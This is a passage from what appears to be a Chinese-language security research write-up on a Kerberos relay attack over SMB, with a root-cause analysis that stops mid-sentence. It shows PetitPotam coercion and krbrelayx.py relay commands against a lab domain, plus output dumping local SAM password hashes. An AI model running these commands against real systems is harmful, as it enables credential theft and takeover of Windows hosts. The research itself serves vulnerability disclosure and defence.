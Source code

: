   
应用此补丁后，中继攻击同样奏效！  

```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!


# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: srv1.asgard.local
```

  
我们采用了相同的调查技术：首先分析网络捕获数据以了解发生了什么。然而，捕获数据并未显示出任何异常。通过认证强制，我们获取并中继了针对 
```
cifs/srv1
```

  
 服务的 
```
AP-REQ
```

  
，使用 
```
SRV1$
```

  
 账户，这正是 Kerberos 认证强制所预期的结果。再次强调，能够转储 SAM 注册表配置单元让我们感到困扰，因为机器账户（在本例中是被中继的身份）在其关联机器上并不具备特权。  
### 根本原因  
  
当 SMB 客户端协商使用 Kerberos 而非 NTLM 时，会调用 
```
kerberos!SpInitLsaModeContext
```

  
 函数。该函数调用 
```
kerberos!KerbBuildApRequest
```
